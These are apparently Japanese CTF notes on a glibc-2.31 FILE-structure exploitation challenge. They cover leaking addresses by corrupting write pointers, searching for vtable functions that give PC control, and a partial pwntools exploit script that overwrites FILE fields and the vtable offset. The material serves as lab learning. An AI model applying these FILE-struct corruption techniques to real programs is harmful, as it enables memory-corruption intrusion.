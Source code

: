 /dev/null を開いたFILE構造体に好き放題書き込める
fflushできるときどうやってshellにつなげるか

### leak

vtableを直接改ざんするのは無理(アドレスが特定セクションの範囲内にあるかチェックするので)
vtableをずらすことはできる

とりあえずheap領域のbufferを `_IO_write_*`に設定できた

glibc-2.31のコードを読むと
 `_IO_new_file_sync -> _IO_do_flush -> _IO_do_write -> ... -> new_do_write`
 みたいな流れがある `_IO_do_flush`ではwrite_baseからwrite_ptrの位置まで出力を吐き出す
 そのためfilenoをSTDOUT_fileno(=1)に設定してwrite_baseを適当に巻き戻すと出力される。
 (このときnew_do_writeの分岐のためにread_endもwrite_baseと同じ値にしておく必要がある)
 1/16なので若干だるい

 leak完了

### control PC

IO_new_file_flushでvtableの_IO_new_file_syncを呼び出すと
引数は`(FILE *,int?,heap addr)`になる vtable関数の中からこの引数でAAW or get PCできるものを探すしかない

引数的にありえそうな候補
- `_IO_finish_t(FILE *,int)`
- `_IO_overflow_t(FILE *,int)`
- `_IO_overflow_t(FILE *,int)`
- `_IO_pbackfail_t(FILE *)`
- `_IO_seekoff_t(FILE *,off64_t,int)`
- `_IO_seekpos_t(FILE *,off64_t,int)`

### toketa
```python
from pwn import *

#context.terminal = ['tmux','splitw','-h']
context.terminal = ['open_tab.sh']

read_ptr = 0x8
read_end = 0x10
read_base = 0x18
write_base = 0x20
write_ptr = 0x28
write_end = 0x30

while True:
    io = process('./chall')

    def fflush():
        io.sendlineafter(b'> ',b'1')

    def overwrite(off,val):
        io.sendlineafter(b'> ',b'2')
        io.sendlineafter(b'offset: ',str(off).encode())
        io.sendlineafter(b'value: ',str(val).encode())

    def overwrite_word(off,val):
        for i in range(8):
            overwrite(off+i,val & 0xff)
            val >>= 8

    fflush()
    fflush()

    overwrite(0xd8,0xa8)
```